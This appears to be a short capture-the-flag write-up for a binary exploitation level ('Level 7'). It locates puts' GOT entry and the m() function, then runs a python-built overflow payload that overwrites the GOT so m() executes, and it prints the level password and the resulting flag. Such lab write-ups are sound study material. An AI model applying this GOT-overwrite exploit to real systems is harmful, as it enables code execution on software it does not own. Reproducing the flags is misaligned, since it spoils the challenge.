 # Level 7
*password : f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d*

```
$ scp -P 4242 level7@192.168.56.108:level7 binary/
```

## GOT overwrite
objective : excute m() instead of puts()

```
$ objdump -R ./level7 

./level7:     file format elf32-i386
...
08049928 R_386_JUMP_SLOT   puts
...
$ gdb level7
(gdb) info funct m
...
0x080484f4  m
...
```

`m()` address : 0x080484f4\
`puts()` address : 0x08049928


offset = 3 * 4 = 12\
8 + 12 = 20

```
$ ./level7  $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1651857543
```
